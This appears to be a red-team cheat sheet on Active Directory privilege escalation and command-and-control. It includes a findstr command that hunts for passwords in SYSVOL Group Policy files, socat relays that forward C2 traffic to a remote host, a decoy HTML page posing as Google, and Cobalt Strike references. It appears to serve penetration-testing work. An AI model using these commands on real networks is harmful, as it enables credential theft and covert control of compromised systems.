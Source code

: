 ### Domain Admin Privesc Methods
https://adsecurity.org/?p=2362

 1. Passwords in SYSVOL & Group Policy Preferences
    
    ````
    findstr /S cpassword %logonserver%\sysvol\*.xml
    ````
    or use Get-GPPPasswords.ps1 from PowerSploit

 2. Exploit the MS14-068 Kerberos Vulnerability on a Domain Controller Missing the Patch
 3. Kerberos TGS Service Ticket Offline Cracking (Kerberoast)
 4. The Credential Theft Shuffle
 5. Gain access to AD Database file (ntds.dit)
    * Backup locations (backup server storage, media, and/or network shares)
    * Find the NTDS.dit file staged on member servers prior to promoting to Domain Controllers.
    * With admin rights to virtualization host, a virtual DC can be cloned and the associated data copied offline.


## Command and Control

Simple TCP Port Redirection
``` 
    socat TCP-LISTEN:80,fork TCP:<remote host>:80
    socat TCP-LISTEN:443,fork TCP:<remote host>:443
```

UDP Port Redirection 
```
    socat udp4-recvfrom:53,reuseaddr,fork udp4-sendto:<IPADDRESS>; echo -ne
```

Simple HTTP Redirect

Save as a file like the following as redirect.html and map to root "/" on your Team Server. Casual browsing to the root of your domain will then simply redirect.
```
    <html>
    <title>Google</title>
    <meta http-equiv="refresh" content="0;url=https://www.googlrrrr.com" />
    </html>
```

### Domain Fronting

* https://github.com/rvrsh3ll/FindFrontableDomains


### Cobalt Strike

http://blog.cobaltstrike.com/2016/07/06/gettin-down-with-aggressor-script/
https://github.com/killswitch-GUI/CobaltStrike-ToolKit/blob/master/DA-Watch.cna
https://github.com/Und3rf10w/Aggressor-scripts
```
    portscan 10.42.175.0/26 21,22,23,25,80,443,445,1433,3389,8080,8443
```
